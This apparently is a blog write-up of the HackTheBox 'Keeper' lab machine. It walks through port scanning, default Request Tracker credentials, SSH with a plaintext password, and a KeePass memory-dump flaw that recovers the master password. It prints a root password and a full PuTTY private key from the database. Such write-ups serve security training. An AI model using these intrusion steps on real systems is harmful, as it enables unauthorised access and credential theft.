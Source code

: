 ```yaml
---
title: HTB - Keeper
date: 2024-07-09T15:40:00
categories:
  - Posts
  - HackTheBox
tags:
  - HackTheBox
  - KeePass
  - OpenSSH
  - RequestTracker
---
```

![Keeper.png](https://raw.githubusercontent.com/sullydan/sullydan.github.io/main/assets/images/Keeper.png)
## Summary
Use default credentials to access ticketing system <br/>
Find cleartext password for initial SSH access <br/>
Leverage KeePass vulnerability to retrieve SSH key for root
## Enumeration
#### Port Scanning
We'll start off by running nmap and exporting the results in all formats. 
```
$ nmap -sV -sC -T4 10.10.11.227 -oA nmap       
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-09 13:55 EDT
Nmap scan report for keeper.htb (10.10.11.227)
Host is up (0.024s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 35:39:d4:39:40:4b:1f:61:86:dd:7c:37:bb:4b:98:9e (ECDSA)
|_  256 1a:e9:72:be:8b:b1:05:d5:ef:fe:dd:80:d8:ef:c0:66 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
It appears there's only two TCP ports open, 22 (ssh) and 80 (http). Nmap reveals the domain keeper.htb so we'll add that to our hosts file. 

#### Port 80
Upon visiting http://keeper.htb we are met with a link to raise an IT support ticket.
![Pasted image 20240709140705 1.png](https://raw.githubusercontent.com/sullydan/sullydan.github.io/main/assets/images/Pasted%20image%2020240709140705%201.png)

After following the link, we're met with a login page with some interesting details about the tech stack. My first instinct is to find documentation on the application and look for default credentials, followed by searching the web for any CVEs that may apply to version 4.4.4.
![Pasted image 20240709140755.png](https://raw.githubusercontent.com/sullydan/sullydan.github.io/main/assets/images/Pasted%20image%2020240709140755.png)

As luck would have it, the default credentials for Request Tracker authenticate us as the root user. After some poking around, we find a listing of other users among which we find lnorgaard (Lise Nørgaard.) Lise is a new user with their initial password stored in plaintext. 
![Pasted image 20240709141101.png](https://raw.githubusercontent.com/sullydan/sullydan.github.io/main/assets/images/Pasted%20image%2020240709141101.png)

#### SSH
Let's take those credentials and attempt an SSH connection. 
```
$ ssh lnorgaard@10.10.11.227            
lnorgaard@10.10.11.227's password: 
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-78-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
You have mail.
Last login: Tue Aug  8 11:31:22 2023 from 10.10.14.23
lnorgaard@keeper:~$ whoami
lnorgaard
```
Perfect! We got user access!
## Privilege Escalation
In Lise's home folder, we find the user flag and a zip archive.
```
lnorgaard@keeper:~$ ls
RT30000.zip  user.txt
```
Let's download the archive and extract it on our host.
```
$ unzip RT30000.zip
Archive:  RT30000.zip
  inflating: KeePassDumpFull.dmp     
 extracting: passcodes.kdbx 
```
So we have a dump file and running the file command on passcodes.kdbx reveals a KeePass database version 2.x. We can use 'kpcli' to interact with the database but it is password protected. Fortunately for us, this version happens to have a vulnerability that allows us to reveal the master password. Running the tool https://github.com/vdohney/keepass-password-dumper we get the following:
![Pasted image 20240709151105.png](https://raw.githubusercontent.com/sullydan/sullydan.github.io/main/assets/images/Pasted%20image%2020240709151105.png)
Googling the last two words we can reveal the first two characters as part of a popular Danish dessert. Now we can open the database and look for credentials that may help us pivot or escalate our credentials.
```
$ kpcli

KeePass CLI (kpcli) v3.8.1 is ready for operation.
Type 'help' for a description of available commands.
Type 'help <command>' for details on individual commands.

kpcli:/> open passcodes.kdbx 
Provide the master password: 
```
We can then use the built-in find command to look for results related to our domain.
```
kpcli:/> find keeper
Searching for "keeper" https://raw.githubusercontent.com/sullydan/sullydan.github.io/main.
 - 1 matches found and placed into /_found/
Would you like to show this entry? [y/N] 
=== Entries ===
0. keeper.htb (Ticketing Server)                                          

 Path: /passcodes/Network/
Title: keeper.htb (Ticketing Server)
Uname: root
 Pass: F4><3K0nd!
  URL: 
Notes: PuTTY-User-Key-File-3: ssh-rsa
       Encryption: none
       Comment: rsa-key-20230519
       Public-Lines: 6
       AAAAB3NzaC1yc2EAAAADAQABAAABAQCnVqse/hMswGBRQsPsC/EwyxJvc8Wpul/D
       8riCZV30ZbfEF09z0PNUn4DisesKB4x1KtqH0l8vPtRRiEzsBbn+mCpBLHBQ+81T
       EHTc3ChyRYxk899PKSSqKDxUTZeFJ4FBAXqIxoJdpLHIMvh7ZyJNAy34lfcFC+LM
       Cj/c6tQa2IaFfqcVJ+2bnR6UrUVRB4thmJca29JAq2p9BkdDGsiH8F8eanIBA1Tu
       FVbUt2CenSUPDUAw7wIL56qC28w6q/qhm2LGOxXup6+LOjxGNNtA2zJ38P1FTfZQ
       LxFVTWUKT8u8junnLk0kfnM4+bJ8g7MXLqbrtsgr5ywF6Ccxs0Et
       Private-Lines: 14
       AAABAQCB0dgBvETt8/UFNdG/X2hnXTPZKSzQxxkicDw6VR+1ye/t/dOS2yjbnr6j
       oDni1wZdo7hTpJ5ZjdmzwxVCChNIc45cb3hXK3IYHe07psTuGgyYCSZWSGn8ZCih
       kmyZTZOV9eq1D6P1uB6AXSKuwc03h97zOoyf6p+xgcYXwkp44/otK4ScF2hEputY
       f7n24kvL0WlBQThsiLkKcz3/Cz7BdCkn+Lvf8iyA6VF0p14cFTM9Lsd7t/plLJzT
       VkCew1DZuYnYOGQxHYW6WQ4V6rCwpsMSMLD450XJ4zfGLN8aw5KO1/TccbTgWivz
       UXjcCAviPpmSXB19UG8JlTpgORyhAAAAgQD2kfhSA+/ASrc04ZIVagCge1Qq8iWs
       OxG8eoCMW8DhhbvL6YKAfEvj3xeahXexlVwUOcDXO7Ti0QSV2sUw7E71cvl/ExGz
       in6qyp3R4yAaV7PiMtLTgBkqs4AA3rcJZpJb01AZB8TBK91QIZGOswi3/uYrIZ1r
       SsGN1FbK/meH9QAAAIEArbz8aWansqPtE+6Ye8Nq3G2R1PYhp5yXpxiE89L87NIV
       09ygQ7Aec+C24TOykiwyPaOBlmMe+Nyaxss/gc7o9TnHNPFJ5iRyiXagT4E2WEEa
       xHhv1PDdSrE8tB9V8ox1kxBrxAvYIZgceHRFrwPrF823PeNWLC2BNwEId0G76VkA
       AACAVWJoksugJOovtA27Bamd7NRPvIa4dsMaQeXckVh19/TF8oZMDuJoiGyq6faD
       AF9Z7Oehlo1Qt7oqGr8cVLbOT8aLqqbcax9nSKE67n7I5zrfoGynLzYkd3cETnGy
       NNkjMjrocfmxfkvuJ7smEFMg7ZywW7CBWKGozgz67tKz9Is=
       Private-MAC: b0a0fd2edf4f0e557200121aa673732c9e76750739db05adc3ab65ec34c55cb0
```
Since I'm on a Kali host, we can convert this putty key to one we can use with openSSH. We'll save the original as ssh-rsa and using the following command, output our private key as keeper_id_rsa.
```
$ puttygen ssh-rsa -o keeper_id_rsa -O private-openssh
```
Now to use our newfound key to SSH into the server. Note: the root username was specified in the database entry we found.
```
$ ssh -i keeper_id_rsa root@10.10.11.227
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-78-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
You have new mail.
Last login: Tue Aug  8 19:00:06 2023 from 10.10.14.41
root@keeper:~# whoami
root

```
That's it, we officially have root!